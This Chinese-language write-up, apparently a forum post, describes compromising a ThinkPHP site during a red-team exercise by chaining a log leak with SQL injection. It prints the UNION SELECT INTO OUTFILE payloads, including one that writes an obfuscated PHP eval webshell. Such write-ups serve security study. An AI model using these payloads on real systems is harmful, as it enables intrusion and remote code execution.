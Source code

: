 在一次攻防演练中，遇到这么一个站点

该站点基于ThinkPHP框架开发，且存在日志泄露，故事就从这个日志泄露开始了

**信息收集**
--------

1\. 老话说的好，渗透的本质就是信息收集,而信息搜集整理为后续的情报跟进提供了强大的保证，进入该站点发现只有三个功能点，逐个进行查看

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-832e1fc6aa9ffcc10fdb4d4fc505de434bb1673d.png)

2\. 进入第一个功能点

。。。发现直接报404，还有条狗看着家

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-14dc24eafd316abe67bdc0dbc7da56bde53374d4.png)

3\. 进入第二、三个功能点，发现是一个注册表单，第三个也为404

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-4d7aa9db260400a88bf5600be2f0d54f974c1b4c.png)

4\. 他写三个难道就只有三个功能嘛？我不信，开扫！

敏感文件这不就来了嘛

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-c3ce155282e7756b79240ccbad309c0f9b62d4f4.png)

5.通过目录扫描发现该站点存在eclipse配置文件泄露

访问/.settings/org.eclipse.core.resources.prefs 获取到项目里的所有功能点

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-7e06217d0fbf4ce5be80e81e7e9b6620d57ddffb.png)

org.eclipse.core.resources.prefs解释

org.eclipse.core.resources.prefs文件其实就是规定项目内的文件的编码用的。一般来说一个项目里的文件编码需要一致，特别是文件文本内容本身无法指示文件本身编码的（比较绕，XML文件第一行能指示自身编码，CSS也有这个能力但用得不多），尽量不要多种编码同时存在（最好在编码规范中禁止多重编码同时存在的现象发生）

[Eclipse中.setting目录下文件介绍](https://www.cnblogs.com/shihaiming/p/5803957.html)

6.该站点基于ThinkPHP框架开发，上工具跑出日志泄露

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-f69fbcc45c4654647e952c12eae81f017b3b29b9.png)

该工具下载地址：

<https://github.com/Lotus6/ThinkphpGUI>

**进行测试**
--------

挨个访问功能页面

有两个上传点，尝试上传

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-bdc499eab9a0605d8e2f317c3289ab4347029194.png)

发现403了...

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-80640b0905ef1231598f370eebf77d24426e858a.png)

7.逛完一圈发现后台路径被改，文件上传403，功能都改了或者删掉了

没头绪。。。

去翻翻日志吧。。。

喔唷~这是啥，这不是我前台测试时打的单引号嘛

日志中居然存在Sql执行语句

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-fdb4a6ff93570b389707566dfacbbecb5c48e917.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-6cb33fa06d6bfd295e68fdb16a7e6be1bbf62f4c.png)

8.Sql语句记录到日志中，并发现Sql语句报错信息，语句闭合为 )

这时候就可以靠 ThinkPHP日志泄露 + Sql注入打一个组合拳了，以后谁还敢说ThinkPHP日志泄露没危害的！

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-80f8dce7c0f14673bfe892c435e72d95ba46986b.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-59861d10e51d27b0d2b4f03860dc6ff6c6e784a5.png)

9.开始着重对该功能进行测试

因为该功能点有验证码，便对其进行手测，成功获取到MariaDB数据的版本信息，与权限信息

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-1bffedcc4a49b6729fd5fced3fafda7cf85f2fc2.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-aa558d2d015bac199ad5dd98853e32aa700619d0.png)

10.开始读文件，可是没有物理路径咋办呢，那就找！

在目录扫描的时候存在一个demo目录，这不就有了吗

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-faa89c2fce9e91093b5ddb0ded9ccede2e05abbe.png)

11.为啥要读文件呢，因为查权限就没那个必要，还浪费时间，能读就能写。

尝试读取win.ini，跟本地win.ini做对比，发现成功读取到win.ini

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-cc59eba86bd250fadc745552c907ce2cc72fa8fe.png)

12.可是接下来头又痛了，使用order by 判断表列数不回显，且日志不记录Sql语句，有验证码又懒得构造盲注语句了。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-b8130e022fb6a81de529ed5720eb54a22e72155a.png)  
那咋办？只能掏笨方法了

13\. 先用union select 尝试写一下文件看看报什么错

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-82543e995e860826bd022a6ae25bef65d3767dd1.png)

**The used SELECT statements have a different number of columns**

提示列数不同，也就是我写的列数不对，继续测试

14\. 直接手动判断列数写文件,最终在第9列成功写入文件  
从  
`1) union select 1 into outfile 'xxx\/reg\/upload\/1.php' --+ `

到  
`1) union select 1,2,3,4,5,6,7,8，'1' into outfile 'xxx\/reg\/upload\/1.php' --+`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-8195522a65a6f8516b19c89fd7f46644feffdbcf.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-e207b8496d76978ac209e80bdeba4201b8503248.png)

**写入Webshell**
--------------

15\.

构造语句：

`1) union select 1,2,3,4,5,6,7,8,from_base64('PD9waHAgZXZhbChnenVuY29tcHJlc3MoYmFzZTY0X2RlY29kZSgnZUp4TExVdk0wVkNKRC9BUERvbFdUODVOVVkvVnRBWUFSUVVHT0E9PScpKSk7Pz4=') into outfile 'xxxx\/reg\/upload\/7fa0b347c86e45522a1d6606731002c9.php' --+`

成功获取到Webshell，到后面发现，那条安全狗根本就没用~.~

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-642c8b48b510adc5ae1dd58f3683b6951cee745e.png)

当然不建议各位用这个笨方法，因为有些表的列数特别多  
好几十条，还是得先判断的  
结束，拿Shell收工！